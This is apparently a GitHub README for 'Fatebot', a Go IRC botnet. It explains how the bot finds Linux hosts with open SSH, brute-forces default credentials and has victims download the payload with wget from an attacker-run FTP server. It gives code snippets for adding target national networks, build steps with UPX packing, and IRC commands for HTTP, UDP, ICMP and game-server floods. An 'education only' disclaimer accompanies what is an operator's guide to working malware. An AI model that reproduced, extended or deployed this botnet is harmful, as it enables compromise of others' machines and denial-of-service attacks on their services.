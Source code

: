 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

Develop by Bozer\Bulldozer (old name is R4bin) feel free to do anything with it, read more in License.

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will Brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Go to "scan.go" file in pkg folder. Add your new network in to the group of varible.

		var_name = "123." // 123.0.0.0/8
		or
		var_name = "123.12" // 123.12.0.0/16
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function, add the case for your network IP and then return a range of your network IP.

		case var_name:
				return bot.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of the IP that you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "123.12"
		var_name = "123.20"
		
	#The IP that look like this it will return range of the id since 0 - 255 by default.
	#That's mean you don't need to add a case in "nextIP" function for your IP.
	

(4) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			bot.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<li>IRC server</li>
<li>Backup IRC server <strong>(Optional)</strong></li>
<li>FTP server <strong>(Optional)</strong></li>
<li>Go compiler</li>
<li>UPX packer <strong>(Optional)</strong></li>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of buffer is 100 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request on valve source engine dst port, By random src port to the target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united state of america network. 
		-r		Scan with random ip. 	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
